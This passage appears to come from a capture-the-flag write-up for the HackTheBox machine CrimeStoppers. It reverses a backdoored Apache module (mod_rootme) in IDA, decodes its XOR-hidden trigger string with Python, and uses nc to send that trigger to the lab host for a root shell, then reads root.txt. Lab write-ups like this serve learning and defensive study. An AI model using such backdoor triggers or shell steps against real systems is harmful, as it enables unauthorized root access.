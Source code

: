 
So let’s grab a copy:

    
    
    dom@ubuntu:~/.thunderbird/36jinndk.default/ImapMail/crimestoppers.htb$ locate rootme
    /etc/apache2/mods-available/rootme.load
    /etc/apache2/mods-enabled/rootme.load
    /usr/lib/apache2/modules/mod_rootme.so
    

The new release of IDA free is a great way to look at this. There’s a function
called `rootme_post_read_request` that seems like a good place to start:

![](https://0xdfimages.gitlab.io/img/ida-rootme_post_read_request.png)

In that function, there’s a call to `darkarmy`, followed by a call to string
compare for the result of `darkarmy` and [rbx+150h]. Making a guess that that
buffer holds the request, check out `darkarmy`:

![](https://0xdfimages.gitlab.io/img/darkarmy.png)

This loop takes two strings and xors their first 10 characters, which looks
like this in python:

    
    
    >>> a = 'HackTheBox'
    >>> b = '\x0E\x14\x0d\x38\x3b\x0b\x0c\x27\x1b\x01'
    >>> [chr(ord(x) ^ ord(y))  for x,y in zip(a,b)]
    ['F', 'u', 'n', 'S', 'o', 'c', 'i', 'e', 't', 'y']
    

And that string gets a root shell:

    
    
    root@kali# nc 10.10.10.80 80
    get FunSociety
    rootme-0.5 DarkArmy Edition Ready
    id
    uid=0(root) gid=0(root) groups=0(root)
    python3 -c 'import pty;pty.spawn("bash")'
    root@ubuntu:/#
    

### root.txt

And with that, root.txt:

    
    
    root@ubuntu:/# cd /root
    cd /root
    root@ubuntu:/root# ls
    ls
    Congratulations.txt  root.txt
    root@ubuntu:/root# wc -c root.txt
    wc -c root.txt
    33 root.txt
    root@ubuntu:/root# cat root.txt
    cat root.txt
    91bb771...
    root@ubuntu:/root# cat Congratulations.txt
    cat Congratulations.txt
    Hope you enjoyed the machine! The root password is crackable, but I would be surprised if anyone managed to crack it without watching the show.  But who knows it is DESCrypted after all so BruteForce is possible.
    